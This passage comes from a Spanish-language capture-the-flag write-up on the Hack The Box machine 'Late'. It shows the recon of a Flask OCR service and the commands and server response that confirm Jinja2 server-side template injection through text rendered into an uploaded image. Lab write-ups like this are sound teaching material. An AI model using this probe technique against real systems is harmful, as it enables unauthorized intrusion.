 Ojito!, vemos un mensaje de error y recibimos la ruta completa del archivo subido. Como es costumbre, los usuarios se ubican en la ruta `home`, con ello podemos deducir que existe un usuario llamado `svc_acc`

> Buscando aplicaciones **OCR** que usen `Flask`, encontramos un repositorio de `GitHub` con una interfaz muy similar: [https://github.com/lucadibello/ImageReader](https://github.com/lucadibello/ImageReader)
{: .prompt-tip}

Examinando que réquisitos necesita observamos `Jinja2`. Además, con la información sobre [Flask](https://flask.palletsprojects.com/en/2.1.x/) sabemos que depende del template `Jinja2`

> ¿ Qué es Jinja ?

![JinjaConcept](jinja_concept.png){: .shadow}

> Más información: [https://palletsprojects.com/p/jinja/](https://palletsprojects.com/p/jinja/)
{: .prompt-info}

## Foothold

* * *

Con la idea de como trabaja por detrás este software procedemos a buscar vulnerabilidades y encontramos un posible **`SSTI` (Server Site Template Injection)** que proviene del Template `Jinja` que usa el framework `Flask`:

> Validamos que es vulnerable:

```shell
❯ convert -pointsize 18 label:'{ { 7 * 7 } }' test.png
     \_________________________________________________ Create image from a text

❯ curl -is -XPOST -F "file=@test.png" http://images.late.htb/scanner
     \_________________________________________________ Transfer data to server

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 10 May 2022 05:45:00 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 10
Connection: keep-alive
Content-Disposition: attachment; filename=results.txt
Last-Modified: Tue, 10 May 2022 05:45:00 GMT
Cache-Control: no-cache
ETag: "1652161500.115982-10-372837928"

<p>49 ______________________________ Vulnerable to SSTI !
</p> 
```
{: .nolineno}

> Explicación de parámetros :
{: .prompt-info}
